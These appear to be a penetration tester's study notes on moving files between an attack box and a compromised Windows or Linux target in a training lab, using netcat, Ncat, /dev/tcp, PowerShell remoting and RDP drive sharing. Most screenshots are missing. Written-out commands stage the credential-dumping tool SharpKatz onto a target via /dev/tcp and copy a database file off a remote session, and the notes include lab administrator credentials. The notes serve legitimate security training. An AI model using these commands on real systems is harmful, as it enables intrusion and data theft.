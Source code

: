# NETCAT (nc)

# From attacker --> victim

## transfer file from attack host to target
 
TARGET:

![Exported image](Exported%20image%2020240712140346-0.png)  

ATTACK BOX:

![Exported image](Exported%20image%2020240712140346-1.png)   
# From victim <-- host (useful for firewalls blocking incoming connections)
 
ATTACK BOX: sending file as input  
-q 0 denotes terminate connection when finished

![Exported image](Exported%20image%2020240712140346-2.png)  

TARGET:

![Exported image](Exported%20image%2020240712140346-3.png)  

# NCAT (Nmap's Ncat)

# From attacker --> victim

## transfer file from attack host to target
 
TARGET:

![Exported image](Exported%20image%2020240712140346-4.png)  

ATTACK BOX:

![Exported image](Exported%20image%2020240712140346-5.png)     

# From victim <-- host (useful for firewalls blocking incoming connections)
 
ATTACK BOX: sending file as input  
--send-only denote terminate connection when finished

![Exported image](Exported%20image%2020240712140346-6.png)  

TARGET:

![Exported image](Exported%20image%2020240712140346-7.png)

_If nc or Ncat is not available on the remote host /dev/tcp can be used._

## nc on attack box:

![Exported image](Exported%20image%2020240712140346-8.png)  

## Ncat on attack box:

![Exported image](Exported%20image%2020240712140346-9.png)

```
ncat -I -p 443 --send-only < SharpKatz.exe 

cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe 


PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession 
$Session -Destination C:
\
Users
\
Administrator
\
Desktop\
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession 
$Session

rdesktop 
10.10
.10.132 -d HTB -u administrator -p 
'Password0@'
-r disk:linux
=
'/home/user/rdesktop/files'

xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:
'Password0@'
/drive:linux,/home/plaintext/htb/academy/filetransfer



```
 
## remote host:

![Exported image](Exported%20image%2020240712140346-10.png)

cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
 
## Powershell Session File Transfer

- must be administrator
- PowerShell Remoting turned on
    
    - test with $Test-Connection -ComputerName <name> -Port 5985
- creates http/https listeners on 5985/5986
 
1. Create Remoting Session
    
    1. ![Exported image](Exported%20image%2020240712140346-11.png)
2. Copy-Item from local to session
    
    1. PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
3. Copy-Item from remote to local
    
    1. PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
 
## RDP

- use to mount drives inside RDP session

### rdesktop

rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@'-r disk:linux='/home/user/rdesktop/files'
 
### xfreerdp

xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@'/drive:linux,/home/plaintext/htb/academy/filetransfer
 
Inside, access [\\tsclient\](file:///\\tsclient\) to transfer files  
or  
mstsc.exe can be used